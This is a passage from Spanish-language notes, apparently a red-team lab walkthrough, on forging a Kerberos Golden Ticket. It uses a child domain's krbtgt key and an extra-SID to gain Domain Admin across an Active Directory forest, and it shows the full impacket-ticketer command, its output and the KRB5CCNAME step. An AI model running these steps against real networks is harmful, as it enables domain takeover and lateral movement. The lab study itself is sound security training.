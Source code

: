 ```
- El atacante podrá:
  - Acceder a recursos como Domain Admin en el dominio hijo.
  - Escalar privilegios y acceder también al dominio padre (gracias al extra-sid).
  - Moverse lateralmente por toda la forest de Active Directory.

👉 En resumen:
Con el hash del krbtgt del Child Domain y los SIDs del Child y Parent, se crea un Golden Ticket que le da al usuario corpmngr privilegios de Domain Admin tanto en el dominio hijo como en el padre.

ticketer.py -domain child.warfare.corp -aesKey ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2 -domain-sid S-1-5-21-3754860944-83624914-1883974761 -groups 516 -user-id 1106 -extra-sid S-1-5-21-3375883379-808943238-3239386119-516,S-1-5-9 'corpmngr'


```bash
┌──(kali㉿kali)-[~/Downloads/crta]
└─$ impacket-ticketer -domain child.warfare.corp -aesKey ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2 -domain-sid S-1-5-21-3754860944-83624914-1883974761 -groups 516 -user-id 1106 -extra-sid S-1-5-21-3375883379-808943238-3239386119-516,S-1-5-9 'corpmngr'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for child.warfare.corp/corpmngr
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in corpmngr.ccache
```                                                 
┌──(kali㉿kali)-[~/Downloads/crta]
└─$ 



# Let’s set the ccache file to the environment variable.

export KRB5CCNAME=corpmngr.ccache

# Estás moviendo lateralmente dentro del dominio, usando tu Golden Ticket para pedir acceso a un servicio específico en un host del dominio, sin necesitar contraseñas.
## Request Service Ticket using the ccache file.


